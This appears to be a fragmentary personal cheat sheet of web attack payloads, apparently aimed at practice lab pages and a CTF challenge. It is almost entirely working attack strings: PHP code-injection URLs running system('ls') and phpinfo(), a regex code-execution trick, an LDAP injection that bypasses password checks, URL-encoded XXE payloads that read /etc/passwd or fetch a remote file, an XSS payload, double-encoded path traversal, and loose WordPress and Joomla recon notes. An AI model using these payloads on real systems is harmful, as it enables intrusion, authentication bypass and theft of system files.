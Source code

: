 http://192.168.0.115/codeexec/example4.php?name=hackervvxv'.system('ls');// 

ttp://192.168.0.115/codeexec/example2.php?order=id);}//

http://192.168.0.115/codeexec/example2.php?order=id);}phpinfo();//


http://192.168.0.115/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer


LDAP server
Light Weight 


inurl: admin/edit.php

http://192.168.0.106/ldap/example2.php?name=admin)(userPassword=*))%00&password=hacker


XML Attack ==>
https://pastebin.com/Kv7YFyGE

//cat /etc/passwd
%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22ISO-8859-1%22%3F%3E%20%3C%21DOCTYPE%20foo%20%5B%20%20%20%20%3C%21ELEMENT%20foo%20ANY%20%3E%20%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2f%2f%2fetc%2fpasswd%22%20%3E%5D%3E%3Cfoo%3E%26xxe%3B%3C%2ffoo%3E
 
//xss alert
%3Chtml%3E%3C%21%5BCDATA%5B%3C%5D%5D%3Escript%3C%21%5BCDATA%5B%3E%5D%5D%3Ealert%28%27xss%27%29%3C%21%5BCDATA%5B%3C%5D%5D%3E%2fscript%3C%21%5BCDATA%5B%3E%5D%5D%3E%20%3C%2fhtml%3E
 
//url request
%3C%21DOCTYPE%20foo%20%5B%20%20%3C%21ELEMENT%20foo%20ANY%3E%20%20%3C%21ENTITY%20bar%20SYSTEM%20%20%22http%3A%2f%2f192.168.0.107%2finputfile.txt%22%3E%5D%3E%3Cfoo%3E%20%20%26bar%3B%3C%2ffoo%3E


http://web.chal.csaw.io:7311/?path=%252e%252e/

. ==> hex encode ==> 2e   
% ==> hex encode ==> 25


Joomala
administrator
?com=id


word press ==> XSS ma paut ==>
wordpress  > exploit > themes and plugins
/wp-admin
/wp-content
id=5
/about




exploit will be theme and plugin

CI 

==> to get server info
viewdns.info
reverse ip

